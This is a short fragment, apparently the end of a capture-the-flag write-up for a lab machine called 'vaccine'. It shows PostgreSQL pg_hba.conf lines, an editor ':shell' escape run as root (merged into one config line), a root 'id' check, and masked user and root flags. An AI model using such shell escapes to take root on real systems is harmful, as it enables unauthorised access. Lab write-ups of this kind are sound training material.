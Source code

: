 ``` 
# replication privilege.
local   replication     all                                     peer
host    replication     all             127.0.0.1/32            md5
host    replication     all             ::1/128                 md:shell
:shell

root@vaccine:/var/lib/postgresql/11/main# id
uid=0(root) gid=0(root) groups=0(root)
```

```bash
root@vaccine:~# cat root.txt
********************************
```

:checkered_flag:**user flag** : ********************************

:checkered_flag:**root flag** : ********************************
